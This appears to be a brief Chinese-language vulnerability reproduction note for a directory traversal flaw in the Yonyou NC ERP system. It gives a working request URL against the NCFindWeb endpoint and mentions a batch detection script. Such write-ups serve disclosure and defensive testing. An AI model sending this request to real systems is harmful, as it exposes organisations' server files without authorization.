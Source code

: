 # 0x00 软件介绍
用友NC：用友NC是面向集团的ERP类软件  
官网：https://www.yonyou.com/

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
访问如下地址
```
http://x.x.x.x/NCFindWeb?service=IPreAlertConfigService&filename
```
返回如下图，表示存在目录遍历漏洞  
![image](./pic/0.png)

# 0x05 批量脚本
用友NC-FileRead-Vuln-Batch-Detect.py，具体用法见：python3 用友NC-FileRead-Vuln-Batch-Detect.py -h  
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
